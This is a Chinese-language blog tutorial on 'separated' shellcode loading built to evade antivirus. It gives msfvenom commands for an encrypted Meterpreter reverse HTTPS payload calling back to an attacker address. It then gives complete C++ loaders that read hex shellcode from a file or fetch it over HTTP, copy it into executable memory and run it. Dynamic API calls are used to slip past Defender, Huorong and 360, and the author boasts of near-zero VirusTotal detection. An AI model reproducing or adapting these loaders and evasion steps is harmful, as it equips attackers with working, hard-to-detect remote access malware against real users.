









# 简介

本文详细介绍了如何通过文件加载和远程URL加载方式实现Shellcode分离加载，以规避安全软件的检测。文章首先描述了通过Metasploit Framework生成的shellcode文件加载的过程，并提供了相关的C++代码。

为了避免被杀毒软件检测，利用动态API调用和lazy_importer项目进行代码优化。其次，文章讨论了如何通过远程URL加载shellcode，也提供了相应的实现代码。整篇文章旨在帮助读者理解shellcode分离加载的具体实现过程和原理，同时通过实践操作增强对这一技术的掌握程度


# 一、通过文件加载

## msf生成shellcode文件

使用`msfvenom`生成raw格式的文本文件, 但是raw格式的文本文件很容易就会被杀软查杀，为了防止通讯特征被检测到，此处我还做了msf流量加密，此处若想了解msf流量加密的朋友可以去看这篇文章：[MSF流量加密](https://blog.csdn.net/xf555er/article/details/128051211?ops_request_misc=&request_id=&biz_id=&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~koosearch~default-1-128051211-null-null.268^v1^koosearch&utm_term=%E6%B5%81%E9%87%8F&spm=1018.2226.3001.4450)

```
msfvenom -p windows/x64/meterpreter_reverse_https lhost=192.168.47.155 lport=4444 PayloadUUIDTracking=true HandlerSSLCert=ssl.pem PayloadUUIDName=henry -f raw -o shellcode_raw.txt
```




为了不被杀软查杀，并将其保存为十六进制格式

```
msfvenom -p windows/x64/meterpreter_reverse_https lhost=192.168.47.155 lport=4444 PayloadUUIDTracking=true HandlerSSLCert=ssl.pem PayloadUUIDName=henry -f hex -o shellcode_hex.txt
```

	


## 代码实现

这段代码的作用是从一个以十六进制表示的文件中读取shellcode，然后将其加载到内存中，并执行该shellcode

```cpp
#include <windows.h>
#include <iostream>
#include <fstream>
#include <sstream>
using namespace std;

// 将十六进制中的单个字符转换为相应的整数值
unsigned char hexCharToByte(char character) {
    if (character >= '0' && character <= '9') {
        return character - '0';
    }
    if (character >= 'a' && character <= 'f') {
        return character - 'a' + 10;
    }
    if (character >= 'A' && character <= 'F') {
        return character - 'A' + 10;
    }
    return 0;
}

// 将十六进制字符串转换成字节型数组
void hexStringToBytes(const std::string& hexString, unsigned char* byteArray, int byteArraySize) {
    for (int i = 0; i < hexString.length(); i += 2) {
        byteArray[i / 2] = hexCharToByte(hexString[i]) * 16 + hexCharToByte(hexString[i + 1]);
    }
}


int main()
{   

    std::ifstream file("shellcode_hex.txt");  //打开指定文件
    
    size_t size;  //定义文件内容的字节数
    string contents; //定义文件内容
    
    //判断文件是否打开成功
    if (file.is_open()) {
        std::stringstream buffer; //创建一个stringstream对象
        buffer << file.rdbuf();  //将文件的内容复制到该流中
        contents = buffer.str();  //将stringstream对象的内容转换string,并将其存储在contents中

        size = contents.length()/2;  //由于两个十六进制相当于一个字节,因此文件内容长度需除以2
        file.close();  //关闭文件
    }
    
    //printf("%d\n", size); 
    //cout << contents;


    // 为存储转换后的shellcode分配内存
    unsigned char* buffer = (unsigned char*)malloc(size);
    
    // 调用函数将十六进制字符串转换为字节型数组
    hexStringToBytes(contents, buffer, size);

    // 在内存中分配一块可以执行的区域
    void* exec = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    // 将shellcode复制到该区域
    memcpy(exec, buffer, size);
    
    // 执行该shellcode
    ((void(*) ())exec)();
}
```


## 代码优化

火绒和WindowsDefender都报毒了, 其原因是内存申请函数`VirtualAlloc`被检测到了，那就使用动态调用api来绕过检测




导入`lazy_importer`项目来动态调用系统api, 然后在api函数前面添加上`(LI_FN)`，并将函数参数的`NULL`替换成`nullptr`



​	

修改完代码后360不会报毒了, 上传到virus Total中的进行检测，查杀率为2/70，效果还不错

		

		


# 二、通过远程url加载

## http服务目录放置shellcode文件

另一种shellcode分离加载的方法是通过远程URL加载。首先，我们需要在HTTP服务目录放置shellcode文件，然后启用HTTP服务：`python -m http.server 8000`



		


## 代码实现

基于上述代码的基础上，添加了`GetUrl_HexContent`函数，其作用是从指定url下载内容并将其存储在给定的缓冲区中，随后加载至内存

```cpp
#include <windows.h>
#include <wininet.h>
#pragma comment(lib, "wininet.lib")
#include <iostream>
#include <fstream>
#include <sstream>
#include <vector>
#include "lazy_importer.hpp"

using namespace std;


// 将十六进制中的单个字符转换为相应的整数值
unsigned char hexCharToByte(char character) {
    if (character >= '0' && character <= '9') {
        return character - '0';
    }
    if (character >= 'a' && character <= 'f') {
        return character - 'a' + 10;
    }
    if (character >= 'A' && character <= 'F') {
        return character - 'A' + 10;
    }
    return 0;
}

// 将十六进制字符串转换成字节型数组
void hexStringToBytes(const std::string& hexString, unsigned char* byteArray, int byteArraySize) {
    for (int i = 0; i < hexString.length(); i += 2) {
        byteArray[i / 2] = hexCharToByte(hexString[i]) * 16 + hexCharToByte(hexString[i + 1]);
    }
}

/**
 * 从指定的URL下载内容并将其存储到给定的缓冲区中。
 *
 * @param url 要下载的URL
 * @param buffer 存储下载内容的缓冲区
 * @return 下载的字节数（注意：字节数是原始十六进制字符串长度的一半）
 */
size_t GetUrl_HexContent(LPSTR url, std::vector<unsigned char>& buffer) {
    HINTERNET hInternet, hConnect;
    DWORD bytesRead;
    DWORD bufferSize = 0;
    DWORD contentLength = 0;
    DWORD index = 0;
    DWORD bufferLength = sizeof(bufferSize);

    // 打开一个与互联网的连接
    hInternet = InternetOpen(L"User Agent", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (hInternet == NULL) {
        std::cerr << "InternetOpen failed. Error: " << GetLastError() << std::endl;
        return 0;
    }

    // 打开一个URL连接
    hConnect = InternetOpenUrlA(hInternet, url, NULL, 0, INTERNET_FLAG_RELOAD, 0);
    if (hConnect == NULL) {
        std::cerr << "InternetOpenUrlA failed. Error: " << GetLastError() << std::endl;
        InternetCloseHandle(hInternet);
        return 0;
    }

    // 查询HTTP响应头中的内容长度
    HttpQueryInfo(hConnect, HTTP_QUERY_CONTENT_LENGTH | HTTP_QUERY_FLAG_NUMBER, &contentLength, &bufferLength, &index);
    std::vector<char> hexBuffer(contentLength + 1, 0);

    // 读取URL返回的内容到hexBuffer中
    if (!InternetReadFile(hConnect, &hexBuffer[0], contentLength, &bytesRead)) {
        std::cerr << "InternetReadFile failed. Error: " << GetLastError() << std::endl;
    }
    else if (bytesRead > 0) {
        hexBuffer[bytesRead] = '\0';
        // 调整buffer的大小，以便存储转换后的字节数据
        buffer.resize(bytesRead / 2);
        // 将十六进制字符串转换为字节型数组
        hexStringToBytes(&hexBuffer[0], &buffer[0], bytesRead / 2);
    }

    // 关闭连接
    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);

    // 返回读取到的字节数（注意：字节数是原始十六进制字符串长度的一半）
    return bytesRead / 2;
}


int main() {
    // 把这个URL换成你的shellcode文件的URL
    LPSTR url = (char*)"http://127.0.0.1:8000/shellcode_hex.txt"; 
    
    //存放恶意代码的数组
    std::vector<unsigned char> buffer;

    //获取远程url的16进制内容,并将其存放至buffer数组
    size_t size = GetUrl_HexContent(url, buffer);

    // 在内存中分配一块可以执行的区域
    char* exec = (char*)LI_FN(VirtualAlloc)(nullptr, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // 将shellcode复制到该区域
    memcpy(exec, buffer.data(), size);

    // 执行该shellcode
    ((void(*) ())exec)();

    // 打印buffer的内容，只为演示，实际使用中可能并不需要这一步
    /*for (size_t i = 0; i < buffer.size(); i++) {
        printf("%02X ", buffer[i]);
        if ((i + 1) % 16 == 0) {
            printf("\n");
        }
    }*/

    return 0;
}
```


VirusTotal检测只有一个报毒

	